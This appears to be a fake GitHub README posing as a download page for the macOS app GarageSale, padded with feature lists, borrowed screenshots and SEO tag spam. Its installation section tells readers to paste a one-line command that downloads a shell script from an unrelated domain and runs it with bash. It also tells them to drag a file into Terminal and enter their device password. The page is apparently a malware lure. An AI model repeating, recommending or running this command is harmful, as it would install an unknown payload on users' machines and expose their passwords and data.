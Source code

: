 # 🛒 GarageSale — The Ultimate Garage Sale Organizer for macOS

GarageSale is an advanced macOS application designed to streamline your online garage sale experience. Create, manage, and advertise your garage sales like a pro with powerful tools and an intuitive interface.

## ✅ Download GarageSale for macOS
[![Download GarageSale](https://img.shields.io/badge/Download-GarageSale-blueviolet)](https://garagesale-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is GarageSale?

GarageSale is a full-featured client for managing online and local garage sales. Whether you're listing on eBay, setting up local sales, or creating professional-looking advertisements, GarageSale simplifies the process with automation, templates, and real-time previews.

---

## ✨ Features

- 🧾 Intuitive UI with Dark Mode support  
- 🛍️ Built-in eBay integration  
- 🖼️ Image editing, watermarking & hosting  
- 📋 Listing templates & batch editing  
- 📍 Local sale planning and signage tools  
- 📅 Calendar view and schedule listings  
- 📦 Inventory management system  
- 🔄 Real-time updates & sync between devices

---

## 💡 Why Use GarageSale?

- 🚀 Speed up the process of creating garage sale listings  
- 🎨 Customize your sale visuals with professional templates  
- 🌎 Reach local & online buyers with smart tools  
- 📊 Track sales, inventory, and performance effortlessly  
- 🧠 Reduce manual work with smart automations  

---

[![Download GarageSale](https://img.shields.io/badge/Download-GarageSale-blueviolet)](https://garagesale-mac-download.github.io/.github)

---

## 🖼️ Preview

![screenshot1](https://www.iwascoding.com/Images/GarageSale/whatsnew/darkMode.png)  
![screenshot2](https://www.iwascoding.com/Images/eBayAuctionImages/gs9/en/previewMode.png)

---

## 📌 Tags

garagesale, online garage sale, garage sale advertising, garage sale app, garage sale sites,  
garage sale websites, post garage sale, garage sale signs near me, garage sale ads,  
garage sale sign ideas, garage sale supplies, funny garage sale signs, local garage sales,  
garage sale pricing, garage sales today, garage sales in my area, garage sale cerca de mi,  
127 garage sale, catchy garage sale signs, community garage sales, craigs list garage sale,  
garage sale companies, garage sale neighborhood, garage sale this week, garage sales for today,  
garage sales on line, garagesaletrail, huge garage sale, market place garage sale, on line garage sale
